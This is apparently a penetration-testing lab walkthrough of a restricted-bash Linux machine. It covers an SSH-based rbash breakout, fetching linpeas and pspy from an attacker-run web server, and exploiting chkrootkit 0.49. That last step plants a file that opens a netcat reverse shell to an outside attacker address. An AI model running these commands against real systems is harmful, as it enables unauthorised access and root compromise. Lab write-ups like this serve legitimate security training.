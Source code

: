 Restricted RBash
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/77049140-1311-4a84-a636-c28eb2b5140d)

Tip:
Use `compgen` to list all the commands available in the system's PATH..
```shell
compgen -c
```

Restricted RBash Breakout - SSH
```shell
> ssh 296640a3b825115a47b68fc44501c828@192.168.224.85 -t "bash --noprofile"
```
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/7c673bf5-9a5a-4d3c-aa9e-4d5340558003)

Linpeas
```shell
> python -m http.server 80
```
```shell
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:/tmp$ /usr/bin/wget http://192.168.45.198/linpeas.sh
```
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/4849942c-9d08-4f49-99f1-d19fa2cc3a40)
Did not find anything interesting.

PSPY
```shell
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:/tmp$ /usr/bin/wget http://192.168.45.198/pspy32
```
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/b2d3d796-98c4-42c5-9276-ad9de43202e5)
```shell
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:/tmp$ /usr/bin/chmod +x pspy32
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:/tmp$ ./pspy32
```

![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/4e78c408-f6ad-461e-ad01-e0f79f735a84)
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/dd799e2f-6015-49ef-a313-e802b25acd35)

![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/af6f3248-5550-4847-90d2-c4ef7159b6d4)

```shell
> searchsploit chrootkit 0.49
```
![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/5bdcbb6c-24fe-4fd7-832a-beaef284fb6c)

```shell
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:/tmp$ echo '/usr/bin/nc -e /bin/sh 192.168.45.233 80' > update
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:/tmp$ /usr/bin/chmod +x update 
```

![image](https://github.com/karanshergill/OffSec-Play/assets/83878909/605ad34e-18eb-4154-b99d-3e143bd9b891)
